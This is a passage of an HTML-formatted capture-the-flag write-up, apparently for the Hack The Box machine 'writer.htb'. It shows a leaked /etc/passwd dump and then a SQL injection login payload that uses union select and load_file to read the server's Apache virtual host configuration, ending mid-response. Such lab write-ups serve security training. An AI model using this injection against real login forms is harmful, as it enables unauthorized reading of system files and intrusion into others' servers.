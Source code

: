 stack,,,</span><span class="c4">:/var/lib/tpm:/bin/false</span><span class="c5"><br></span><span class="c4">uuidd:x:</span><span class="c5">107</span><span class="c4">:</span><span class="c5">112</span><span class="c4">::/run/uuidd:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">tcpdump:x:</span><span class="c5">108</span><span class="c4">:</span><span class="c5">113</span><span class="c4">::/nonexistent:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">landscape:x:</span><span class="c5">109</span><span class="c4">:</span><span class="c5">115</span><span class="c4">::/var/lib/landscape:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">pollinate:x:</span><span class="c5">110</span><span class="c4">:</span><span class="c5">1</span><span class="c4">::/var/cache/pollinate:/bin/false</span><span class="c5"><br></span><span class="c4">usbmux:x:</span><span class="c5">111</span><span class="c4">:</span><span class="c5">46</span><span class="c4">:usbmux</span><span class="c5">&nbsp;daemon,,,</span><span class="c4">:/var/lib/usbmux:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">sshd:x:</span><span class="c5">112</span><span class="c4">:</span><span class="c5">65534</span><span class="c4">::/run/sshd:/usr/sbin/nologin</span><span class="c5"><br>systemd-</span><span class="c4">coredump:x:</span><span class="c5">999</span><span class="c4">:</span><span class="c5">999</span><span class="c4">:systemd</span><span class="c5">&nbsp;Core </span><span class="c4">Dumper:</span><span class="c5">/</span><span class="c4">:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">kyle:x:</span><span class="c5">1000</span><span class="c4">:</span><span class="c5">1000</span><span class="c4">:Kyle</span><span class="c5">&nbsp;</span><span class="c4">Travis:</span><span class="c5">/home/</span><span class="c4">kyle:</span><span class="c5">/bin/bash<br></span><span class="c4">lxd:x:</span><span class="c5">998</span><span class="c4">:</span><span class="c5">100</span><span class="c4">::/var/snap/lxd/common/lxd:/bin/false</span><span class="c5"><br></span><span class="c4">postfix:x:</span><span class="c5">113</span><span class="c4">:</span><span class="c5">118</span><span class="c4">::/var/spool/postfix:/usr/sbin/nologin</span><span class="c5"><br></span><span class="c4">filter:x:</span><span class="c5">997</span><span class="c4">:</span><span class="c5">997</span><span class="c4">:Postfix</span><span class="c5">&nbsp;</span><span class="c4">Filters:</span><span class="c5">/var/spool/</span><span class="c4">filter:</span><span class="c5">/bin/sh<br></span><span class="c4">john:x:</span><span class="c5">1001</span><span class="c4">:</span><span class="c5">1001</span><span class="c4">:</span><span class="c5">,,,</span><span class="c4">:/home/john:/bin/bash</span><span class="c5"><br></span><span class="c4">mysql:x:</span><span class="c5">114</span><span class="c4">:</span><span class="c5">120</span><span class="c4">:MySQL</span><span class="c5">&nbsp;Server,,,</span><span class="c4">:/nonexistent:/bin/false</span></p></td></tr></table><h2 class="c28" id="h.ipxz7iecqxp"><span class="c11">Getting RCE</span></h2><h3 class="c28" id="h.qinf94u9q24o"><span class="c45 c37">Source Code Analysis</span></h3><p class="c18"><span>Before being able to read the source code of the website, the full path of the file containing the source code must first be discovered. Seeing as the server is running apache2, the </span><span class="c22">000-default.conf</span><span>&nbsp;file in the </span><span class="c22">/etc/apache2/sites-available</span><span class="c6">&nbsp;directory, a directory which holds configuration files for Apache virtual hosts, can be leaked to determine this information. &nbsp;</span></p><p class="c23 c50"><span class="c1"></span></p><p class="c23"><span class="c1">Payload</span></p><a id="t.3c6c6a286229dc0e28db09e9ee9ffc3b16a95284"></a><a id="t.6"></a><table class="c9"><tr class="c2"><td class="c14" colspan="1" rowspan="1"><p class="c27"><span class="c5">uname=&#39;union select 1,load_file(&#39;/etc/apache2/sites-available/000-default.conf&#39;),3,4,5,6-- -&amp;password=a</span></p></td></tr></table><p class="c23"><span class="c1"><br>Response</span></p><a id="t.7a46cfd2c965984ece994a9a036e8c707a8d7294"></a><a id="t.7"></a><table class="c9"><tr class="c2"><td class="c14" colspan="1" rowspan="1"><p class="c27"><span class="c5">Welcome # Virtual host configuration </span><span class="c3">for</span><span class="c5">&nbsp;writer.htb domain<br>&amp;lt;VirtualHost *:80&amp;gt;<br> &nbsp; &nbsp; &nbsp; &nbsp;ServerName writer.htb<br> &nbsp; &nbsp; &nbsp; &nbsp;ServerAdmin admin@writer.htb<br> &nbsp; &nbsp; &nbsp; &nbsp;WSGIScriptAlias / </span><span class="c5 c37">/</span><span class="c35 c37">var</span><span class="c5 c37">/www/writer.htb/writer.wsgi</span><span class="c5"><br> &nbsp; &nbsp; &nbsp; &nbsp;&amp;lt;Directory /</span><span class="c3">var</span><span class="c5">/www/writer.htb&amp;gt;<br> &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Order allow,deny<br> &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Allow from all<br> &nbsp; &nbsp; &nbsp; &nbsp;&amp;lt;/Directory&amp;gt;<br> &nbsp; &nbsp; &nbsp; &nbsp;Alias /</span><span class="c3">static</span><span class="c5">&nbsp;/</span><span class="c3">var</span><span class="c5">/www/writer.htb/writer/</span><span class="c3">static</span><span class="c5"><br> &nbsp; &nbsp; &nbsp; &nbsp;&amp;lt;Directory /</span><span class="c3">var</span><span class="c5">/www/writer.htb/writer/</span><span class="c3">static</span><span class="c5">/&amp;gt;<br> &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Order allow,deny<br> &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Allow from all<br> &nbsp; &nbsp; &nbsp; &nbsp;&amp;lt;/Directory&amp;gt;<br> &nbsp; &nbsp; &nbsp; &nbsp;ErrorLog